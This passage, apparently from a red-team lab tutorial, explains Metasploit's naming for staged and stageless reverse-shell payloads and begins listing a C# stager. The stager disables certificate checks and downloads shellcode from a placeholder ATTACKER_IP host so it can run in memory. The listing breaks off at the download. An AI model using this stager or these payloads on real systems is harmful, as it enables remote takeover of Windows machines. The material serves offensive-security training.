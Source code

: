 When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the **`_`** versus **`/`** after **`shell`**):

| Payload | Type |
| --- | --- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload |

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the **`windows/x64/meterpreter_reverse_tcp`**, rather than **`windows/x64/meterpreter/reverse_tcp`**, which works as its staged counterpart.

# Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at **`C:\Tools\CS Files\StagedPayload.cs`**:

[Full Payload Code](cs%files/T6_EncStageless_cs.md)    *(Click to read)* 

```bash
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);
```